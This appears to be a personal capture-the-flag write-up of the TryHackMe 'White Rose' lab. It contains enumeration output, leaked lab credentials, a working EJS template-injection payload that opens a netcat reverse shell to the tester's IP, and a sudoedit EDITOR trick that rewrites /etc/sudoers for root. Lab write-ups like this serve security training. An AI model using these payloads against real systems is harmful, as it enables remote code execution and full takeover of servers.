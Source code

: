 <code>
https://tryhackme.com/r/room/whiterose

## White Rose


### Enumeration
┌──(kali㉿kali)-[~/Documents/THM/THM_whiterose]
└─$ nmap -A -Pn -p80 cyprusbank.thm 
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-11-12 05:30 EST
Nmap scan report for cyprusbank.thm (10.10.211.123)
Host is up (0.035s latency).
rDNS record for 10.10.211.123: whiterose.thm

PORT   STATE SERVICE VERSION
80/tcp open  http    nginx 1.14.0 (Ubuntu)
|_http-server-header: nginx/1.14.0 (Ubuntu)
|_http-title: Site doesn't have a title (text/html; charset=utf-8).
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

┌──(kali㉿kali)-[~/Documents/THM/THM_whiterose]
└─$ ffuf -w ../../www/wordlists/Subdomain.txt -u http://cyprusbank.thm/ -H "Host:FUZZ.cyprusbank.thm" -fw 1 
found admin.cyprusbank.thm


### Use crentials
Olivia Cortez:olivi8


#### Found

http://admin.cyprusbank.thm/messages/?c=0

Gayle Bev: Of course! My password is 'p~]P@5!6;rs558:q'

### Use crentials


in /setting found this

[ CVE-2022–29078 ] → EJS Server Side Template Injection RCE → PoC ( Link to the Writeup Below )


### Get reverse shell

POST /settings HTTP/1.1
Host: admin.cyprusbank.thm
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Content-Type: application/x-www-form-urlencoded
Content-Length: 199
Origin: http://admin.cyprusbank.thm
Connection: keep-alive
Referer: http://admin.cyprusbank.thm/settings
Cookie: connect.sid=s%3Ad_bGl7Fk6eaYR2o2ysYtiIvEecJP7U7b.E9%2BCA%2Fmz0yjQrd2hHxoKSw1cxNreXYM0k%2BmuDqIVvEY
Upgrade-Insecure-Requests: 1

name=xx&settings[view options][client]=true&settings[view options][escapeFunction]=1;return global.process.mainModule.constructor._load('child_process').execSync('busybox nc  10.9.1.144 4445 -e sh');



╔══════════╣ Analyzing Env Files (limit 70)
-rw-rw-r-- 1 web web 59 Jul 16  2023 /home/web/app/.env                                                             
MONGO=mongodb://localhost
SECRET=secureappsecret
PORT=8080


╔══════════╣ Checking 'sudo -l', /etc/sudoers, and /etc/sudoers.d
╚ https://book.hacktricks.xyz/linux-hardening/privilege-escalation#sudo-and-suid                                    
Matching Defaults entries for web on cyprusbank:                                                                    
    env_keep+="LANG LANGUAGE LINGUAS LC_* _XKB_CHARSET", env_keep+="XAPPLRESDIR XFILESEARCHPATH XUSERFILESEARCHPATH", secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin, mail_badpass

User web may run the following commands on cyprusbank:
    (root) NOPASSWD: sudoedit /etc/nginx/sites-available/admin.cyprusbank.thm

### Privescalation

https://exploit-notes.hdks.org/exploit/linux/privilege-escalation/sudo/sudoedit-privilege-escalation/?source=post_page-----972ee9129fe2--------------------------------


export EDITOR="vim -- /etc/sudoers"
sudoedit /opt/example.txt
Copied!
In vim editor, add the following line in /etc/sudoers.
Assume the current username is “john”

web ALL=(ALL:ALL) ALL
Copied!
After that, we can escalate to root privilege.

sudo su root

  
<\code>

